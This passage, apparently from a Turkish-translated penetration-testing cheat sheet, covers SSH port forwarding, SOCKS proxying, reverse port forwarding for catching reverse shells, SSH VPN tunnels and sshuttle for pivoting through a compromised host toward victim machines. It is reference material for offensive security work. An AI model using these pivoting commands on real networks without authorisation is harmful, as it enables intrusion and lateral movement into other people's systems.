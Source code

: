 Yerel port --> Ele geçirilmiş ana bilgisayar (SSH) --> Üçüncü\_kutusu:Port
```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```
### Port2hostnet (proxychains)

Yerel Port --> Ele geçirilmiş host (SSH) --> Herhangi bir yere
```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```
### Ters Port Yönlendirme

Bu, DMZ üzerinden iç hostlardan kendi hostunuza ters shell almak için faydalıdır:
```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and caputure it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
### VPN-Tüneli

Her iki cihazda da **root erişimine ihtiyacınız var** (çünkü yeni arayüzler oluşturacaksınız) ve sshd yapılandırması root girişine izin vermelidir:\
`PermitRootLogin yes`\
`PermitTunnel yes`
```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```
Sunucu tarafında yönlendirmeyi etkinleştirin
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```
Müşteri tarafında yeni bir rota ayarlayın
```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
## SSHUTTLE

Bir **host** üzerinden bir **alt ağ**'a tüm **trafik**i **ssh** ile **tünelleme** yapabilirsiniz.\
Örneğin, 10.10.10.0/24 adresine giden tüm trafiği yönlendirmek.
```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```
Özel anahtar ile bağlanın
```bash
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa'
# -D : Daemon mode
```
## Meterpreter
